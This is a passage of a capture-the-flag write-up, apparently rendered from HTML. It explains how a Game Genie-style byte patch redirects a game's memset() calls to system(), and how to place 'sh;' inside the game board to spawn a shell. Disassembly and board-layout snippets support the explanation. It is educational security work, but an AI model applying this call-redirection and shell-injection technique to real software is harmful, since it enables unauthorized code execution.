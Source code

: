 ```
.plt:080485E0                   _system         proc near               ; DATA XREF: main+67o<br></br>
.plt:080485E0 FF 25 20 B0 04 08                 jmp     ds:off_804B020<br></br>
.plt:080485E0                   _system         endp</p>
<p>It looks very similar to <tt>_memset()</tt>, except one byte of the address is different - the instruction <tt>FF25<strong>30</strong>B00408</tt> becomes <tt>FF25<strong>20</strong>B00408!</tt></p>
<p>With the first Game Genius code, I change the 0x30 in <tt>memset()</tt> to 0x20 for <tt>system</tt>. The virtual address is 0x08048620, which maps to the in-file address of 0x620 (IDA displays the real address in the bottom-left corner). Since we're changing the third byte, we need to change 0x620 + 2 => 0x622 from 0x30 to 0x20, which effectively changes every call to <tt>memset</tt> to instead call <tt>system</tt>.</p>
<p>Entering 622 and 20 into the online game genie code generator gives us our first code, <strong>AZZAZT</strong>.</p>
<h2>The exploit, part 2
</h2><p>So now, every time the game attempts to call <tt>memset(board)</tt> it calls <tt>system(board)</tt>. The problem is that the first few bits of <tt>board</tt> are quite hard to control (possibly impossible, unless you found another way to use the Game Genius codes to do it).</p>
<p>However, we can change one byte of the instruction <tt>push offset dword_804B1A0</tt>, we can somewhat change the address. That means we can shift the address to somewhere <em>inside</em> the board instead of the start!</p>
<p>Since I have sourcecode access, I can be lazier than players and just set them to see what it'd look like. That way, I can look at putting "sh;" at each offset in the board to see which one would be easiest to build in-game. When I started working on this, I honestly didn't even know if this could work, but it did!</p>
<p>I'll start with the furthest possible value to the right (at the end of the board):</p>

  game.board[BOARD_SIZE-3] = 's';
  game.board[BOARD_SIZE-2] = 'h';
  game.board[BOARD_SIZE-1] = ';';

<p>That creates a board that looks like:</p>

...
|          |
|    ##  ##|
|#    # ## |
|## ###    |
+----------+

<p>That looks like an awfully hard shape to make! So let's try setting the next three bytes towards the start:</p>

  game.board[BOARD_SIZE-4] = 's';
  game.board[BOARD_SIZE-3] = 'h';
  game.board[BOARD_SIZE-2] = ';';
...
|          |
|      ##  |
|###    # #|
|# ## ###  |
|          |
+----------+

<p>That's still a pretty bad shape. How about third from the end?</p>

  game.board[BOARD_SIZE-5] = 's';
  game.board[BOARD_SIZE-4] = 'h';
  game.board[BOARD_SIZE-3] = ';';
...

|          |
|        ##|
```
